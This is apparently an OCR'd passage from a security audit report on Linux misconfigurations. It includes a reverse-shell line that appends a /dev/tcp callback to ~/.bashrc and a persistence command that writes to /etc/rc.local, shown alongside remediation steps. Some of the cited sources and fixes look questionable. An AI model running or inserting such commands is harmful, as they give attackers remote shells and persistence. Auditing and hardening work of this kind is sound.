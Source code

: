       CVE-2020-14145 | NIST SP 800-181 | Red Hat SSH Security Guide                                                                                                                                                                    
      (fetch tool could be used to source attack docs)                                                                                                                                                                                 
                                                                                                                                                                                                                                       
      ## 2. Bash Initialization File Tampering                                                                                                                                                                                         
      **Vulnerability**: World-writable bashrc files enable reverse shell injection                                                                                                                                                    
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      echo "exec 5<>/dev/tcp/10.0.0.1/4444 && sh <&5 >&5 2>&5" >> ~/.bashrc                                                                                                                                                            
      ```                                                                                                                                                                                                                              
      **Impact**: Escalates callback channels on user login                                                                                                                                                                            
      **Criticality**: High (CVSS 8.5)                                                                                                                                                                                                 
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      find /home -name .bashrc -exec chmod 644 {} + &&                                                                                                                                                                                 
      find /home -name .bashrc -exec chown -R :users {} +                                                                                                                                                                              
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      MITRE T1504 | SANS ShellShock Guide | Chapter 7 - Linux User Security                                                                                                                                                            
                                                                                                                                                                                                                                       
      ## 3. Root File Manipulation Risk                                                                                                                                                                                                
      **Vulnerability**: World-writable critical files enable OS-level persistence                                                                                                                                                     
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      echo "su root; /tmp/malicious_binary" >> /etc/rc.local                                                                                                                                                                           
      ```                                                                                                                                                                                                                              